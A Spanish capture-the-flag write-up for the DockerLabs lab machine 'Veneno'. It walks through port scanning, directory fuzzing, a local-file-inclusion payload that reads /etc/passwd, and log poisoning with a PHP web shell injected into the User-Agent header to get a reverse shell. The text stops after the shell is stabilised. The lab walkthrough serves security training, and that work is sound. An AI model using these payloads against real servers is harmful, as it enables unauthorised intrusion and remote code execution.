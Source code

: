 # Veneno

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN Veneno`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_1.png)  

Hay dos puertas abiertas, la 22 y la 80.  
Echemos un vistazo a la web.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_2.png)  

Podemos ver la página por defecto de apache2 y tampoco encontramos nada de interés en el código fuente de la página.  
Por lo tanto, vamos a hacer un poco de fuzzing.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_3.png)    

Descubrimos una nueva ruta, /uploads, a la que tenemos acceso, pero que no contiene nada.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_4.png)     
  
También vemos otra página, /problems.php, que, a primera vista, parecería ser la misma que la página de inicio.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_5.png)    

Intentemos ver si esta página es vulnerable a un ataque LFI (Local File Inclusion).  
Ejecutamos el comando:  

`sudo wfuzz -c -L -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --hl=363 "http://172.17.0.2/problems.php?FUZZ=/../../../../../etc/passwd"`

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_6.png)      

¡Así es!  
Podemos ver que hay un usuario, **carlos**.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_7.png)   

A continuación intentamos realizar una fuerza bruta con hydra pero no obtenemos resultados.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_8.png)   

Ejecutamos entonces este comando para ver si tenemos accesos a los logs para intentar ejecutar un ataque de log poisoning.  

`sudo wfuzz -c --hc=404 --hw=0 -t 200 -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u http://172.17.0.2/problems.php?backdoor=FUZZ' 

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_9.png)     

Sí, tenemos acceso a los logs de apache, así que intentaremos llevar a cabo este ataque con el objetivo de enviar una shell inversa a nuestra máquina atacante.  
Primero tendremos que abrir el Burp Suite e interceptar la petición.  
Para ello interceptaremos la petición a la página (http://172.17.0.2/problems.php?backdoor=/var/log/apache2/access.log.  
Ahora modificaremos el campo User Agent con la cadena:   

`<?php system($_GET['cmd']); ?>`   

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_10.png)     

Ahora añadiremos un **&cmd** al final pasandole una reverse shell en php url encodeada y nos pondremos a la escucha en nuesta maquina atacante.     

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_11.png)   

Bien, estamos dentro.  
Ahora haremos el tratamiento de la shell para poder trabajar de forma más comoda.  

![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_12.png) 
![V](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/Veneno/V_13.png)  


















